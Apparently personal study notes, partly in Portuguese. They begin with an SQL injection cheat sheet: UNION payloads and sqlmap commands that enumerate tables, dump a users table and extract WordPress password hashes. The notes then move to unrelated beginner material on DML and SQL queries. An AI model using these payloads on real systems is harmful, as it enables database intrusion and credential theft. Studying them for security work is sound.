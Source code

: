 
## Tables enumeration

    ["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"]

	sqlmap -r req.txt -p "estado" --level=5 --risk=3 --threads 3 --dbms=mysql --os=linux --tables
	

Mssql

    ' union select 1,table_name,3,4,5,6 from information_schema.tables--

## Dump columns users table

	["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns WHERE table_name='wp_users'#"]


	
	
	sqlmap -r req.txt -p "estado" --level=5 --risk=3 --threads 3 --dbms=mysql --os=linux --hex -T users --dump
	
	

## Verifying user privileges


	sqlmap -r req.txt -p "estado" --level=5 --risk=3 --threads 3 --dbms=mysql --os=linux --hex --privileges


## Dump username's passwords

    ["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_pass,11 FROM wp_users#"]



Conceitos SQL
========================

- DML
- DDL
- DCL

## SQL

First exercise
 Construir uma query que vá trazer o resultado departamento da pessoa Bob Franco
 
![qownnotes-media-DAXRXY](../../../media/qownnotes-media-DAXRXY-8340.png)

SELECT department from employees where first_name = 'Bob' and last_name = 'Franco';

### DML (Data manipulation language)

-   Data manipulation language : Utilizada para inserir, alterar, obter e deletar dados do banco de dados
    -  SELECT
    -  UPDATE
    -  DELETE
    -  INSERT
 